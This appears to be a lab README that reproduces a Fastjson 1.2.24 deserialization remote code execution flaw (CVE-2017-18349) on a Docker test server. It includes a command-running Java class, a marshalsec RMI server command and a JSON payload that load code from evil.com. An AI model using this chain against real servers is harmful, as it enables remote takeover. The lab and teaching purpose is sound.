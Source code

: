 # Fastjson 1.2.24 Deserialization Remote Command Execution (CVE-2017-18349)

[中文版本(Chinese version)](README.zh-cn.md)

Fastjson is a JSON parser developed by Alibaba. During the JSON parsing process, it supports using autoType to instantiate a specific class and call its set/get methods to access properties. By identifying relevant methods in the code, malicious exploitation chains can be constructed.

References:

- <https://www.freebuf.com/vuls/208339.html>
- <http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/>

## Environment Setup

Execute the following command to start the test server that use Fastjson 1.2.24 as the default JSON parser:

```
docker compose up -d
```

After the server is started, visit `http://your-ip:8090` to see a JSON format output.

You can update the server information by POSTing a JSON object to this address:

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## Vulnerability Reproduction

Since the target environment is Java 8u102, which doesn't have the `com.sun.jndi.rmi.object.trustURLCodebase` restriction, we can use the `com.sun.rowset.JdbcRowSetImpl` exploitation chain to execute commands through JNDI injection.

First, compile and upload the command execution code, such as `http://evil.com/TouchFile.class`:

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

Then, using the [marshalsec](https://github.com/mbechler/marshalsec) project, start an RMI server listening on port 9999 and specify loading the remote class `TouchFile.class`:

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

Send the payload to the target server with the RMI address:

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

As shown below, the command `touch /tmp/success` has been successfully executed:

![](1.png)
